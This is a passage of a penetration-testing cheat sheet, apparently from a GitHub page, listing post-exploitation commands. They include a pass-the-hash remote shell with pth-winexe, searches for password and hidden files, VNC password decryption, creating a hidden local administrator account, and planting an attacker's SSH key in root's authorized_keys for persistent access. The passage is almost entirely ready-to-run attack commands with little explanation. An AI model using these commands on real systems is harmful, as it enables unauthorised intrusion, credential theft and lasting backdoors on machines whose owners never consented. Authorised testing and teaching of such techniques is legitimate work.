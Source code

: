 #### Pth-WinExe

```csharp
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows

```bash
dir /A:H /s "c:\program files"
```

### General File Search

```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access

### Browsing Registry Hives

```bash
hivesh /registry/file
```

### Decrypting VNC Password

```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys

```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```
